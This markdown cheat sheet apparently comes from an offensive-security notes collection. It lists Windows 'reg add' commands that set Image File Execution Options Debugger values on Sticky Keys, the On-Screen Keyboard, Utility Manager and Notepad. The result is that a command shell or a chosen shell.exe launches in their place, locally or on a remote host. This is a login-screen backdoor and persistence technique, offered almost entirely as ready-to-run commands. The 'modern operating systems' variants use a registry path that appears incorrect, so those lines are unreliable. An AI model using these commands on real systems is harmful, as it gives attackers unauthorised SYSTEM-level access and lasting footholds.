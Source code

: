 # Image File Execution Options

## Sticky Keys

- For legacy operating systems below Windows 7 and Windows 2008 R2

```
C:\> reg add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

- For modern operating systems

```
C:\> reg add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
```

## Accessibility On-Screen Keyboard

- For legacy operating systems below Windows 7 and Windows 2008 R2

```
C:\> reg add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
```

- For modern operating systems

```
C:\> reg add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\osk.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
```

## Utility Manager

- For legacy operating systems below Windows 7 and Windows 2008 R2

```
C:\> reg add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\Windows\system32\cmd.exe" /f
```

- For modern operating systems

```
C:\> reg add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\utilman.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
```

## Notepad

- For legacy operating systems below Windows 7 and Windows 2008 R2

```
C:\> reg add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad" /v Debugger /d "C:\path\to\shell.exe" /f
```

- For modern operating systems

```
C:\> reg add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\notepad" /v Debugger /d "C:\path\to\shell.exe" /f
```

---
## References

- [RDP hijacking — how to hijack RDS and RemoteApp sessions transparently to move through an organisation](https://doublepulsar.com/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6)